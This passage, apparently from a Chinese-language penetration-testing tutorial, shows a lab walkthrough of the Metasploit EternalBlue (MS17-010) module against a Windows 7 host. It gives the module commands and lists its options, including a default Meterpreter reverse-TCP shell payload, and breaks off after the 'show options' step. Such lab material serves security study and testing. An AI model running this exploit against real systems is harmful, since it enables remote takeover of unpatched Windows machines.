 ## exploit ms17\_010\_eternalblue

exploit/windows/smb/ms17\_010\_eternalblue 模块

> EternalBlue SMB Remote Windows Kernel Pool Corruption

支持：<= Windows Server 2008，<= Windows 7、64位系统

### 攻击测试

环境：Windows 7 Enter x64、192.168.1.15

使用模块

```plain
msf6 > use exploit/windows/smb/ms17_010_eternalblue
```

查看模块默认配置，需设置RHOSTS为远程目标IP，Payload默认为64位的反弹shellcode

*   RHOSTS，远程目标IP-默认为空，需设置
*   RPORT，远程SMB共享端口-默认445
*   SMBUser、SMBPass，SMB认证用户名/密码，默认为空-采用匿名访问
*   VERIFY\_ARCH、VERIFY\_TARGET，验证目标架构、系统
*   Payload，反连信息-默认为 `windows/x64/meterpreter/reverse_tcp`、`IP:4444`
*   Target，攻击目标的额外配置-默认 Automatic Target

```plain
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
```

[![](assets/1701606737-4407b2b16bb9c8e9798e25203621c2ce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106234549-8f0f908a-7cbb-1.png)

